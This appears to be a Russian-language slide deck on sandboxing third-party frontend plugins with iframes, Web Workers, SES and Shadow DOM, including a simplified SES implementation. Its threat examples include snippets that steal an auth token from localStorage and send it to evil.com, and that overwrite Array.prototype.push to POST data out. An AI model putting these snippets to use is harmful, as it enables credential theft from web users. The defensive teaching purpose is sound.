


Не браузерные, а свои
пишем собственную плагинную систему для фронтенд приложения
Зачем нужны плагины?
- Каждый делает свою задачу
- Не мешают друг другу
- Расширяет функциональность
Есть число

Контекстное меню
Получаем текст
Главный вопрос
Как запустить чужой код безопасно?
Выбор языка
— Какой язык?
— Конечно JavaScript!
Проблема: Вредоносный код
// Плагин крадёт токены
const token = localStorage.getItem('auth_token');
fetch('https://evil.com/steal?token=' + token);
// Или ломает прототипы
Array.prototype.push = function() {
console.log('Хакнуто! 😈');
};
Методы изоляции
- iframe с атрибутом sandbox
- Web Workers
- SES (Hardened JavaScript)
- Shadow Realms (Realm API)
- Proxy-based изоляция
- QuickJS + WebAssembly
iframe с sandbox
Изоляция в отдельном контексте браузера
<iframe sandbox="allow-scripts"
src="plugin.html">
</iframe>
Плюсы iframe
- Сильная изоляция DOM и выполнения
- Гранулярный контроль разрешений
- Поддержка всеми браузерами
- Синхронное взаимодействие через contentWindow
Минусы iframe
- Бесконечный цикл замораживает приложение
- Накладные расходы на создание контекста
- Проблемы с OOPIF
- allow-scripts + allow-same-origin = риск
OOPIF — это когда браузер запускает iframe в отдельном процессе операционной системы, а не в том же процессе, что и основная страница
До OOPIF
// Синхронный вызов
iframe.contentWindow.runPlugin();
const result = iframe.contentWindow.getData(); // Сразу получаем
После OOPIF
// Теперь это работает как Web Worker
iframe.contentWindow.postMessage('runPlugin');
// Ждём ответа асинхронно
window.addEventListener('message', (e) => {
const result = e.data; // Получаем позже
});
Роль allow-scripts и allow-same-origin
- allow-scripts разрешает выполнение JavaScript внутри iframe
- allow-same-origin позволяет iframe иметь то же происхождение, что и родительская страница
Почему вместе это опасно?
Совместное использование этих атрибутов снимает ограничения sandbox и даёт iframe доступ к родительским cookies и DOM.
Web Workers
Изоляция в отдельном потоке
const worker = new Worker('plugin.js');
worker.postMessage({ action: 'run' });
worker.onmessage = (e) => {
console.log('Result:', e.data);
};
Плюсы Web Workers
- Полная изоляция потока — не блокирует UI
- Нет доступа к DOM и window
- Бесконечный цикл не замораживает приложение
- Отличная производительность для вычислений
Минусы Web Workers
- Только postMessage — ограниченный API
- Сложность создания удобного API
- Проблемы с прототипной инъекцией
- Асинхронная коммуникация
- Нет доступа к DOM
Proxy-based изоляция
Контроль доступа через Proxy
const sandbox = new Proxy(globalThis, {
get(target, prop) {
if (prop === 'document') return undefined;
return target[prop];
}
});
with (sandbox) {
// plugin code
}
Плюсы Proxy
- Лёгковесная реализация
- Гибкий контроль доступа
- Синхронное выполнение
- Выборочное ограничение API
Минусы Proxy
- Слабая изоляция
- Легко обойти через constructor.prototype
- Не защищает от всех атак
- Требует тщательной реализации
- Не для недоверенного кода
QuickJS + WebAssembly
JS engine в WASM
import { getQuickJS } from 'quickjs-emscripten';
const QuickJS = await getQuickJS();
const vm = QuickJS.newContext();
const result = vm.evalCode('1 + 1');
console.log(vm.dump(result)); // 2
result.dispose();
vm.dispose();
Плюсы QuickJS
- Настоящая песочница на уровне движка
- Поддержка JavaScript и TypeScript
- Контролируемое API
- Виртуальная файловая система
- Ограничение памяти
Минусы QuickJS
- Накладные расходы WASM
- Сложная передача объектов
- Web API не доступны из коробки
- Нужна настройка для DOM
- Увеличение размера бандла
Shadow Realms
Новый JavaScript realm (Stage 3 TC39)
const realm = new ShadowRealm();
realm.evaluate('globalThis.x = 1');
const result = realm.evaluate('x + 1'); // 2
Плюсы Shadow Realms
- Отдельный глобальный объект и intrinsics
- Синхронное выполнение через evaluate()
- Контролируемый обмен значениями
- Меньше ресурсов чем Web Workers
- Предотвращает загрязнение глобального scope
Минусы Shadow Realms
- Stage 3 proposal — ограниченная поддержка
- Мало документации
- Не все браузеры поддерживают
- Возможны проблемы совместимости
SES (Secure EcmaScript)
Hardened JavaScript с замороженными intrinsics
import 'ses';
lockdown();
const compartment = new Compartment({
console
});
compartment.evaluate('console.log("Hello")');
Плюсы SES
- Защита от prototype pollution
- Compartments с собственным globalThis
- Синхронное выполнение
- Точный контроль доступных API
Минусы SES
- Многие библиотеки не работают
- Сложная настройка
- Требует понимания hardened JS
- Ограниченная экосистема npm
Выбор метода
| Метод | Изоляция | Производительность | Сложность |
|---|---|---|---|
| iframe | Высокая | Средняя | Низкая |
| Web Workers | Высокая | Высокая | Средняя |
| SES | Средняя | Высокая | Высокая |
| Shadow Realms | Высокая | Высокая | Низкая |
| Proxy | Низкая | Высокая | Средняя |
| QuickJS | Очень высокая | Средняя | Высокая |
Рекомендации
- UI-компоненты → iframe
- Вычисления → Web Workers
- Баланс DX и безопасность → SES/Shadow Realms
- Максимальная изоляция → QuickJS
- Простые случаи → Proxy (с осторожностью)
SES
Secure ECMAScript
Изоляция выполнения JavaScript
Что такое SES?
«Песочница» для JavaScript
🏖️ Аналогия: детская песочница
- Ребёнок играет внутри
- Не может выйти за границы
- Не может испортить соседнюю площадку
Что делает SES
- 🔒 Замораживает встроенные объекты
- 🚫 Убирает опасные глобальные API
- 📦 Создаёт изолированные "компартменты"
Проблема без SES
// Вредоносный плагин меняет Array.prototype
Array.prototype.push = function() {
console.log('Хакнуто! 😈');
// Отправляем данные на сервер хакера
};
// Теперь ВСЕ массивы в приложении сломаны
const items = [];
items.push(1); // "Хакнуто! 😈"
Решение с SES
import 'ses';
// Заморозить все встроенные объекты
lockdown();
// Создать изолированную среду
const compartment = new Compartment({
console: console, // Явно разрешаем
// fetch НЕ передаём - плагин не сможет делать запросы
});
// Запустить код плагина
compartment.evaluate(pluginCode);
Принцип минимальных привилегий
🔑 Аналогия: пропуск в офис
- Открывает только нужные двери
- Не даёт доступ ко всему зданию
Плагин получает только то, что явно разрешено
Что недоступно в SES
// По умолчанию плагин НЕ может:
fetch() // ❌ Делать HTTP-запросы
localStorage // ❌ Читать хранилище
document // ❌ Менять DOM
window.location // ❌ Изменять URL
XMLHttpRequest // ❌ Старые запросы
WebSocket // ❌ Открывать сокеты
// Может только то, что мы явно передали ✅
Как работает SES изнутри?
Пошаговая реализация с нуля
Три кита SES
%%{init: {'theme':'neutral'}}%%
graph TD
A[SES] --> B[Lockdown Заморозка встроенных объектов]
A --> C[Compartment Изолированная среда выполнения]
A --> D[Harden Глубокая заморозка объектов]
style A fill:#2c3e50,stroke:#34495e,color:#fff
style B fill:#3498db,stroke:#2980b9,color:#fff
style C fill:#9b59b6,stroke:#8e44ad,color:#fff
style D fill:#e74c3c,stroke:#c0392b,color:#fff
Шаг 1: Что такое intrinsics?
Intrinsics — встроенные объекты JavaScript
// Примеры intrinsics
Array
Object
Function
Date
Math
Promise
String
Number
// ... и их прототипы
Array.prototype
Object.prototype
// ... всего ~200 объектов
Проблема: можно изменить
// Вредоносный код может изменить intrinsics
Array.prototype.push = function() {
// Отправить данные хакеру
fetch('https://evil.com/steal', {
method: 'POST',
body: JSON.stringify(this)
});
// Продолжить нормально
return Array.prototype.push.call(this, ...arguments);
};
// Теперь ВСЕ массивы в приложении скомпрометированы
const items = [1, 2, 3];
items.push(4); // Данные утекли! 😱
Шаг 2: Реализуем Lockdown
Цель: заморозить все intrinsics
Шаг 2.1: Найти все intrinsics
// Упрощённая версия
function getAllIntrinsics() {
const intrinsics = new Set();
// Стартовые объекты
const roots = [
Object, Array, Function, String, Number,
Boolean, Date, RegExp, Error, Promise,
Map, Set, WeakMap, WeakSet, JSON, Math
];
// Обход графа объектов
const visited = new WeakSet();
function visit(obj) {
if (!obj || visited.has(obj)) return;
visited.add(obj);
intrinsics.add(obj);
// Добавить прототип
const proto = Object.getPrototypeOf(obj);
if (proto) visit(proto);
// Добавить свойства
Object.getOwnPropertyNames(obj).forEach(key => {
const value = obj[key];
if (typeof value === 'object' || typeof value === 'function') {
visit(value);
}
});
}
roots.forEach(visit);
return intrinsics;
}
Шаг 2.2: Заморозить intrinsics
// Упрощённая версия lockdown
function lockdown() {
const intrinsics = getAllIntrinsics();
// Заморозить каждый intrinsic
intrinsics.forEach(obj => {
Object.freeze(obj);
});
console.log('✅ Все intrinsics заморожены!');
}
// Использование
lockdown();
// Теперь нельзя изменить
Array.prototype.push = function() {}; // ❌ Ошибка!
Object.freeze = function() {}; // ❌ Ошибка!
Проблема: constructor и __proto__
// Даже после freeze можно "подняться" по цепочке
const arr = [];
arr.constructor // Array
.prototype // Array.prototype
.constructor // Array
.constructor // Function 😱
('return this')() // globalThis!
// Атакующий может получить доступ к Function
// и выполнить произвольный код
Шаг 2.3: Заменить constructor
function lockdown() {
const intrinsics = getAllIntrinsics();
intrinsics.forEach(obj => {
// Заменить .constructor на frozen dummy
if (obj.constructor) {
Object.defineProperty(obj, 'constructor', {
value: Object.freeze(function() {
throw new TypeError('Запрещено');
}),
writable: false,
configurable: false
});
}
Object.freeze(obj);
});
}
// Теперь безопасно
const arr = [];
arr.constructor.constructor('alert(1)'); // ❌ TypeError!
Шаг 3: Реализуем Compartment
Цель: создать изолированную среду выполнения
Что нужно для изоляции?
- ✅ Свой globalThis (но не window)
- ✅ Свой eval (ограниченный)
- ✅ Общие intrinsics (Array, Object)
- ❌ Нет fetch, localStorage, document
Шаг 3.1: Создаём globalThis
class Compartment {
constructor(endowments = {}) {
// Создаём пустой объект с теми же intrinsics
this.globalThis = Object.create(null);
// Добавляем только разрешённые API
Object.assign(this.globalThis, {
// Безопасные intrinsics
Array,
Object,
String,
Number,
Math,
JSON,
// API, которые явно передали
...endowments
});
}
}
// Использование
const c = new Compartment({
console: console // Явно разрешаем
});
Шаг 3.2: Проблема с eval
// Наивная попытка
class Compartment {
evaluate(code) {
// ❌ Так не работает!
// eval выполнится в текущем scope
return eval(code);
}
}
const c = new Compartment();
c.evaluate('fetch("evil.com")');
// Получит доступ к настоящему fetch! 😱
Шаг 3.3: "Магия with + Proxy"
Секретный соус SES
class Compartment {
constructor(endowments = {}) {
this.globalThis = { ...endowments };
// Создаём evaluator (упрощённо)
this.evaluate = this.createEvaluator();
}
createEvaluator() {
// Proxy перехватывает доступ к переменным
const scopeProxy = new Proxy(this.globalThis, {
has: () => true, // Все переменные "существуют"
get: (target, key) => {
if (key === Symbol.unscopables) return undefined;
return target[key]; // Берём из нашего globalThis
}
});
// with создаёт новый scope
// eval выполнится в этом scope
return Function('scopeProxy', `
with (scopeProxy) {
return function(code) {
"use strict";
return eval(code);
}
}
`)(scopeProxy);
}
}
Как работает with + Proxy
// 1. with создаёт новый scope
with (scopeProxy) {
// 2. При поиске переменной fetch
fetch;
// JavaScript спрашивает scopeProxy.has('fetch')
// Proxy отвечает: true
// JavaScript пытается получить scopeProxy.get('fetch')
// Proxy возвращает: undefined (т.к. не передали)
}
// Результат: fetch === undefined ✅
// Не можем получить настоящий fetch!
Диаграмма работы with + Proxy
%%{init: {'theme':'neutral'}}%%
sequenceDiagram
participant P as Плагин
participant W as with statement
participant Px as Proxy
participant G as globalThis
P->>W: fetch('evil.com')
W->>Px: has('fetch')?
Px-->>W: true (чтобы не было ReferenceError)
W->>Px: get('fetch')
Px->>G: globalThis['fetch']
G-->>Px: undefined (не передали)
Px-->>W: undefined
W-->>P: TypeError: fetch is not a function ✅
Полная реализация Compartment
class Compartment {
constructor(endowments = {}) {
this.globalThis = {
// Безопасные intrinsics
Array, Object, String, Number, Math, JSON,
...endowments
};
const scopeProxy = new Proxy(this.globalThis, {
has: () => true,
get: (target, key) => {
if (key === Symbol.unscopables) return undefined;
return target[key];
}
});
this.evaluate = Function('proxy', `
with (proxy) {
return function(code) {
"use strict";
return eval(code);
}
}
`)(scopeProxy);
}
}
// Готово! 🎉
const c = new Compartment({ console });
c.evaluate('console.log("Hello from compartment!")');
c.evaluate('fetch("evil.com")'); // ❌ TypeError
Шаг 4: Реализуем harden()
Цель: глубоко заморозить объект
Object.freeze vs harden
const obj = {
name: 'Alice',
settings: {
theme: 'dark'
}
};
// Object.freeze — поверхностная заморозка
Object.freeze(obj);
obj.name = 'Bob'; // ❌ Не сработает
obj.settings.theme = 'light'; // ✅ Сработает! 😱
// harden — глубокая заморозка
harden(obj);
obj.name = 'Bob'; // ❌ Не сработает
obj.settings.theme = 'light'; // ❌ Не сработает ✅
Реализация harden
function harden(obj) {
// Отслеживаем посещённые объекты
const visited = new WeakSet();
function deepFreeze(target) {
// Уже заморозили
if (visited.has(target)) return target;
visited.add(target);
// Заморозить сам объект
Object.freeze(target);
// Рекурсивно заморозить свойства
Object.getOwnPropertyNames(target).forEach(key => {
const value = target[key];
// Если свойство — объект, заморозить его тоже
if (value && typeof value === 'object') {
deepFreeze(value);
}
});
// Заморозить прототип
const proto = Object.getPrototypeOf(target);
if (proto && proto !== Object.prototype) {
deepFreeze(proto);
}
return target;
}
return deepFreeze(obj);
}
Использование harden
const api = {
getData: () => [1, 2, 3],
config: {
timeout: 5000,
retries: 3
}
};
// Делаем API неизменяемым перед передачей плагину
harden(api);
// Теперь плагин не может изменить API
api.getData = () => []; // ❌ Ошибка
api.config.timeout = 0; // ❌ Ошибка
// API безопасен для передачи ненадёжному коду
const c = new Compartment({ api: api });
c.evaluate('api.getData()'); // [1, 2, 3]
Собираем всё вместе
// Шаг 1: Заморозить intrinsics
lockdown();
// Шаг 2: Создать API для плагина
const pluginAPI = {
notify: (msg) => console.log('[Plugin]', msg),
getData: () => ({ user: 'Alice' })
};
// Шаг 3: Заморозить API
harden(pluginAPI);
// Шаг 4: Создать Compartment
const compartment = new Compartment({
api: pluginAPI
});
// Шаг 5: Запустить плагин
const pluginCode = `
api.notify('Hello from plugin!');
const data = api.getData();
api.notify('Got data: ' + data.user);
`;
compartment.evaluate(pluginCode);
// [Plugin] Hello from plugin!
// [Plugin] Got data: Alice
Итоговая архитектура
Intrinsics заморожены] API[harden pluginAPI
API заморожен] subgraph Comp[Compartment] GT[globalThis пустой] PR[Proxy перехват] EV[eval безопасный] subgraph Plugin[Код плагина] OK1[api.notify разрешен] NO1[fetch запрещен] NO2[localStorage запрещен] end end end L --> API API --> Comp GT --> PR PR --> EV EV --> Plugin style App fill:#ecf0f1,stroke:#95a5a6 style L fill:#3498db,stroke:#2980b9,color:#fff style API fill:#9b59b6,stroke:#8e44ad,color:#fff style Comp fill:#e8f4f8,stroke:#3498db style Plugin fill:#fef5e7,stroke:#f39c12 style OK1 fill:#2ecc71,stroke:#27ae60,color:#fff style NO1 fill:#e74c3c,stroke:#c0392b,color:#fff style NO2 fill:#e74c3c,stroke:#c0392b,color:#fff
Настоящий SES сложнее
Наша реализация — упрощённая версия для понимания
Реальный SES также:
- Обрабатывает ~200 intrinsics, а не 6
- Поддерживает import/export модулей
- Защищает от атак через Symbol.unscopables
- Предотвращает re-entrancy атаки
- Оптимизирует производительность Proxy
- Совместим со всеми браузерами
Ключевые выводы
- Lockdown замораживает intrinsics → нельзя испортить встроенные объекты
- Compartment использует with + Proxy → изоляция переменных
- Harden глубоко замораживает → API безопасен для передачи
Вместе = безопасное выполнение ненадёжного кода ✅
Плагины без UI
SES + Web Workers
Зачем плагины без UI?
- ⚙️ Тяжёлые вычисления (обработка данных)
- 🔄 Фоновая обработка (парсинг, валидация)
- 🧮 Математические операции
- 📊 Анализ и трансформация данных
- 🚀 Не блокируют главный поток
Архитектура: Main Thread + Worker
Worker Thread vs Main Thread
| Характеристика | Main Thread | Worker Thread |
|---|---|---|
| Доступ к DOM | ✅ Есть | ❌ Нет |
| Блокирует UI | ⚠️ Да | ✅ Нет |
| Вычисления | ⚠️ Медленно | ✅ Быстро |
| SES изоляция | ✅ Да | ✅ Да |
Поток выполнения
Безопасность в Worker
- ❌ Получить доступ к DOM (нет document)
- ❌ Получить доступ к window
- ❌ Изменить UI напрямую
- ❌ Получить доступ к localStorage (если не передали)
- ❌ Сделать fetch (если не передали)
Оптимизация: Transferable Objects
// Проблема: postMessage копирует данные (медленно)
// Решение: Transferable Objects (передача владения)
function executeWithTransfer(method, data) {
// Создаём ArrayBuffer для больших данных
const buffer = new ArrayBuffer(data.length * 8);
const view = new Float64Array(buffer);
// Заполняем данные
for (let i = 0; i < data.length; i++) {
view[i] = data[i];
}
// Передаём ownership в Worker (zero-copy!)
workerRef.current.postMessage({
type: 'EXECUTE',
payload: {
method,
buffer: buffer
}
}, [buffer]); // <-- Передача владения
// buffer теперь недоступен в main thread
console.log(buffer.byteLength); // 0
}
// В Worker:
worker.onmessage = (event) => {
const { buffer } = event.data.payload;
const data = new Float64Array(buffer);
// Работаем с данными без копирования ✅
};
Когда использовать Worker Plugins
| Задача | Подход | Причина |
|---|---|---|
| Рендеринг UI | Main Thread + Shadow DOM | Нужен доступ к DOM |
| Обработка данных | Worker + SES | Не блокирует UI |
| Парсинг JSON/XML | Worker + SES | Тяжёлые вычисления |
| Анализ текста | Worker + SES | CPU-intensive |
| Валидация форм | Main Thread | Быстрая операция |
Ключевые выводы
- Worker Threads для CPU-intensive задач
- SES изолирует код плагина в Worker
- postMessage для коммуникации
- Transferable Objects для больших данных
- Двойная изоляция: Worker + SES
- Не блокирует UI — лучший UX
Две главные проблемы
Проблема 1: Конфликты стилей и DOM
/* Плагин A */
.button { background: red; }
/* Плагин B */
.button { background: blue; }
/* Кто победит? 🤔 */
Стили одного плагина "ломают" другой
Пример конфликта DOM
// Плагин случайно удаляет элемент другого плагина
document.querySelector('.widget').remove();
// Или меняет содержимое
document.body.innerHTML = 'Упс! 💥';
Проблема 2: Вредоносный код
// Плагин крадёт токены
const token = localStorage.getItem('auth_token');
fetch('https://evil.com/steal?token=' + token);
// Или ломает прототипы
Array.prototype.push = function() {
console.log('Хакнуто! 😈');
};
Плагины c UI
SES + Shadow DOM
Shadow DOM
Изоляция стилей и DOM
Что такое Shadow DOM?
«Невидимая коробка» для HTML и CSS
🏠 Аналогия: комната с односторонним зеркалом
- Изнутри всё видно
- Снаружи ничего не видно
Проблема без Shadow DOM
Решение с Shadow DOM
// Создаём Shadow DOM
const host = document.getElementById('plugin-host');
const shadowRoot = host.attachShadow({ mode: 'closed' });
// Стили изолированы!
shadowRoot.innerHTML = `
`;
Как работает изоляция
%%{init: {'theme':'neutral'}}%%
flowchart LR
A[Основное приложение
Global CSS]
B[Shadow DOM
Изолированные стили]
A -.Стили не проникают.-> B
B -.Стили не утекают.-> A
style A fill:#3498db,stroke:#2980b9,color:#fff
style B fill:#e74c3c,stroke:#c0392b,color:#fff
Когда использовать
- 💬 Виджеты для чужих сайтов (чат-боты, формы)
- 🎨 UI-компоненты библиотек
- 🔌 Плагины с независимыми стилями
- 📦 Встраиваемые элементы
Пример
import 'ses';
lockdown();
// 1. Создаём Shadow DOM для изоляции стилей
const host = document.getElementById('plugin-host');
const shadowRoot = host.attachShadow({ mode: 'closed' });
// 2. Создаём SES-компартмент для изоляции кода
const compartment = new Compartment({
render: (html) => shadowRoot.innerHTML = html,
notify: (msg) => console.log(msg)
});
// 3. Запускаем плагин
compartment.evaluate(pluginCode);
Поддержка браузеров
Shadow DOM:
✅ Chrome 53+, Firefox 63+, Safari 10+, Edge 79+
SES:
✅ Работает через библиотеку во всех современных браузерах
Где использовать?
Идеальные сценарии
- 🔌 Системы расширений (VSCode, Chrome)
- 🛒 Маркетплейсы с плагинами
- 📊 Встраиваемые виджеты
- ☁️ Мультитенантные SaaS
- 🎮 Игровые моды и дополнения
Демонстрация на React
github.com/zolotyh/ses-shadow-demo
Ключевые выводы
Изоляция, UI, Performance
- Shadow DOM — изоляция стилей и DOM
- SES — изоляция выполнения кода
- WebWorkers — для ускорения
Преимущества подхода
- 🚀 Легковеснее, чем iframe
- 🛡️ Безопаснее, чем обычный JavaScript
- 🎨 Нет конфликтов стилей
- ⚡ Хорошая производительность
Следующие шаги
- 📖 Изучить документацию SES и Shadow DOM
- 💻 Попробовать демо-проект
- 🏗️ Спроектировать API плагинов
- 🚀 Применить в своих проектах
Полезные ресурсы
- github.com/tc39/proposal-ses
- developer.mozilla.org/docs/Web/API/Web_components/Using_shadow_DOM
- github.com/zolotyh/ses-shadow-demo
- agoric.com/blog
Спасибо!
Вопросы?
github.com/zolotyh/ses-shadow-demo